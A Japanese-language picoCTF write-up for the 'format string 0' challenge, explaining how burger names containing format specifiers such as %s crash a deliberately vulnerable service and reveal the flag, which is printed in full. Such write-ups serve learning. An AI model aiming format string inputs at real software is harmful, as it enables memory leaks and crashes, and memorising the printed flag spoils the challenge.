 # format string 0:Binary Exploitation

Can you use your knowledge of format strings to make the customers happy?\
Download the binary [here]().\
Download the source [here]().
Connect with the challenge instance here: `nc mimas.picoctf.net 60866`

# Solution

タイトルが「format string」となっているのでおそらくformat string attack(書式文字列攻撃)でフラグが得られるのだろう。とりあえず、`nc mimas.picoctf.net 60866`を実行してみる。
```
$ nc mimas.picoctf.net 60866
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_f89c1405}
```
フラグが出てきてしまった。

`picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_f89c1405}`


`Enter your recommendation`のところでどうしてその選択肢を選んだのかを説明していく。
最初の選択肢は、`Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe`の3つ。書式文字列攻撃を念頭におくと、%が含まれている選択肢が怪しいと考えた。`Gr%114d_Cheese`を入力すると次に進んだ。
2回目の選択肢は、`Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak`の3つ。これも最初の選択肢と同様に%が含まれている選択肢を選ぶわけだが、2つあることに気づく。`%t`と`%s`を比較してフラグが出てきそうなのは`%s`なので`Cla%sic_Che%s%steak`を選び、入力した。すると、フラグが得られた。

